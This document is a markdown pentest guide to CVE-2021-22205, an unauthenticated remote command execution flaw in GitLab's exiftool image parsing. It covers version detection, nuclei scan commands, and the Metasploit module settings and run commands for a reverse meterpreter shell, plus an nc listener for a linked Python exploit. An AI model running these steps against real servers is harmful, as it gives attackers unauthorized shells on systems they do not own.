



# Gitlab - CVE-2021-22205 Unauthenticated RCE with exiftool

An issue has been discovered in GitLab CE/EE affecting all versions starting from 11.9. GitLab was not properly validating image files that were passed to a file parser which resulted in a remote command execution.

## Requirements

This vulnerability affect the below **Gitlab CE/EE** versions:

 - `>=11.9`, `<13.8.8`
 - `>=13.9`, `<13.9.6`
 - `>=13.10`, `<13.10.3`

## Exploitation

### Step 1: Detection

**Try to find the version of Gitlab**  
First of all, before trying to exploit the RCE, we need to try to find the version of Gitlab. 

- **Authenticated**: The version can often be found on `/help` endpoint when authenticated with a user account.
    
    


- **Unauthenticated**: On recent versions the `What’s new` feature on `/help` endpoint show an approximative version without authentication. Found this menu clinking on `?` button on top right.
    
    
    
**Nuclei detection**  
Some nuclei templates are available for detection with id `CVE-2021-22205`, `gitlab-rce` or tag `gitlab`:
- [gitlab-rce template](https://github.com/projectdiscovery/nuclei-templates/blob/d6636f9169920d3ccefc692bc1a6136e2deb9205/vulnerabilities/gitlab/gitlab-rce.yaml)
- [CVE-2021-22205 template](https://github.com/projectdiscovery/nuclei-templates/blob/637eec3efac6eb384742c7aaa4e7d14f3392ede9/cves/2021/CVE-2021-22205.yaml)

`nuclei -u http://192.168.1.10 -id CVE-2021-22205,gitlab-rce`  



`nuclei -u http://192.168.1.10 -tags gitlab -silent`



### Step 2.1: Exploit using metasploit
    
This RCE technique is available in the `multi/http/gitlab_exif_rce` module in metasploit.
    
```bash
use multi/http/gitlab_exif_rce
set RHOSTS 192.168.1.10
set LHOST wlan0
run
```
**Enjoy your shell**
  
After running the metasploit module, if the remote gitlab is vulnerable you will have an meterpreter session.
  


### Step 2.2: Exploit without Metasploit

Inspiringz made an [python exploit](https://github.com/inspiringz/CVE-2021-22205).

**Start your listener**  

`nc -lvnp 1337`

**Enjoy your shell**




## References

 - [Action needed by self-managed customers in response to CVE-2021-22205](https://about.gitlab.com/blog/2021/11/04/action-needed-in-response-to-cve2021-22205/)  
 - [Hackerone report #1154542](https://hackerone.com/reports/1154542)  
 - [Gitlab issue #327121](https://gitlab.com/gitlab-org/gitlab/-/issues/327121)  